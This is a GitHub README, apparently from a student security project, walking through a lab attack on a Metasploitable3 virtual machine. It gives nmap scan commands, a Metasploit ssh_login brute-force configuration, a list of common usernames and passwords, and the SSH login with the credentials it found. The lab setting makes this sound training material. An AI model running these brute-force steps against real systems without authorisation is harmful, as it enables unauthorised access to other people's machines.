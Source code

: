 # Phase 1: Setup and Compromise the SSH Service

## Task 1.1: Compromise the SSH Service Using Metasploit

---

## 🎯 Objective
The goal of this task is to **gain unauthorized SSH access** to the victim machine (Metasploitable3) by performing a **brute-force attack** using **Metasploit**. We'll use the Metasploit module `auxiliary/scanner/ssh/ssh_login` to discover valid login credentials.

---

## 🖥️ Environment Setup

- **Attacker Machine**: Kali Linux 
- **Victim Machine**: Metasploitable3 
- **Target Service**: SSH
- **Target IP Address**: `192.168.56.102`
- **SSH Port**: 22 (default)

---

## 🔹 Step 1: Identify Target IP Address

On the victim machine (Metasploitable3), run the following command to get the IP address:
```bash
ifconfig
```


📸 Screenshot:

![Victim IP Address](https://github.com/jalsayid/Security-project/blob/dc3eb3a50f16f591446ceccfcf2ff306de2c5ca3/Phase1/screenshots/ip%20address%20of%20metasploitable%203%20(1).png)

---

## 🔹 Step 2: Test Connectivity

On the attacker machine (Kali Linux), we test if the victim machine is reachable over the network. This is done using the `ping` command to ensure that packets can be sent and received from the target IP.

```bash
ping 192.168.56.102
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/983fe310f387ed02dc4abba13caba27e241a72da/Phase1/screenshots/testing%20VM%20connectivity%20from%20attacker%20(kali).png)

---

## 🔹 Step 3: Create Username and Password Files

Before running the brute-force attack, we need to prepare two text files:
- One containing possible usernames.
- One containing possible passwords.

These files will be used by Metasploit's `ssh_login` module.

Example content for `username` file:
```bash
msfadmin
admin
root
user
test
postgres
ubuntu
kali
vagrant
guest
oracle
administrator
ftp
support
webadmin
sysadmin
backup
mysql
pi
john
```

Example content for `password` file:
```bash
msfadmin
admin
123456
password
12345
123456789
12345678
1234
1234567
1234567890
admin123
root
toor
kali
guest
letmein
qwerty
abc123
111111
123123
vagrant
welcome
iloveyou
password1
123qwe
1q2w3e4r
000000
passw0rd
dragon
monkey
loveme
qwertyuiop
```


📸 Screenshot:

![test connectivity](https://github.com/jalsayid/Security-project/blob/fc2e81dd5e1a870890534e157783733ea46e9bea/Phase1/screenshots/files.png)

---

## 🔹 Step 4: Perform a Basic Nmap Scan

To check which ports are open on the victim machine, we start with a basic Nmap scan from the attacker machine (Kali Linux). This helps us discover services like SSH running on the target.

```bash
nmap 192.168.56.102
```

📸 Screenshot:

![nmap](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap.png)

---

## 🔹 Step 5: Perform a Detailed Nmap Scan with `-A`

After confirming that port 22 (SSH) is open using a basic scan, we run a detailed Nmap scan to gather more information about the services and operating system running on the victim machine.

This helps confirm the SSH version and identify the system fingerprint.

```bash
nmap -A 192.168.56.102
```

📸 Screenshot:

![nmap a](https://github.com/jalsayid/Security-project/blob/83631ae4769ad8e04f964d0a4d6c37bc944ce80a/Phase1/screenshots/nmap%20-a.png
)

## 🔹 Step 6: Start Metasploit and Load the SSH Login Module

Now that we’ve confirmed the SSH service is running on the victim, we start Metasploit on Kali Linux to launch the brute-force attack.

Start Metasploit:
```bash
sudo msfconsole
```

Search for the SSH login scanner module:
```bash
search ssh_login
```

From the list of matching modules, we will use the one for SSH login:
```bash
use 0
```

📸 Screenshot:

![search](https://github.com/jalsayid/Security-project/blob/5d4b10f49c23ea8938e5bdc0282f657a2d581f3e/Phase1/screenshots/start%20metasploit%20and%20search%20(1).png)

---

## 🔹 Step 7: Configure and Run the Exploit

Once the SSH login module is loaded in Metasploit, we configure the necessary options to launch the brute-force attack using our `username` and `password` files.

Set the required parameters:
```bash
set rhosts 192.168.56.102
set user_file Desktop/username
set pass_file Desktop/password
set verbose true
set stop_on_success true
```
And then we run the exploit:
```bash
exploit
```

📸 Screenshot:

![exploit](https://github.com/jalsayid/Security-project/blob/fb682b5fb6b259664e036a31aa080a29f03a578f/Phase1/screenshots/exploit2.png)

After running the exploit, Metasploit successfully finds a valid username and password combination that grants SSH access to the victim machine.

In our case, the following credentials were discovered:

username: vagrant
password: vagrant

---

## 🔹 Step 8: Access the Victim System via SSH

After discovering the correct credentials (`vagrant:vagrant`), we manually access the victim machine from Kali Linux using the `ssh` command.

```bash
ssh vagrant@192.168.56.102
```

📸 Screenshot:

1[access]()














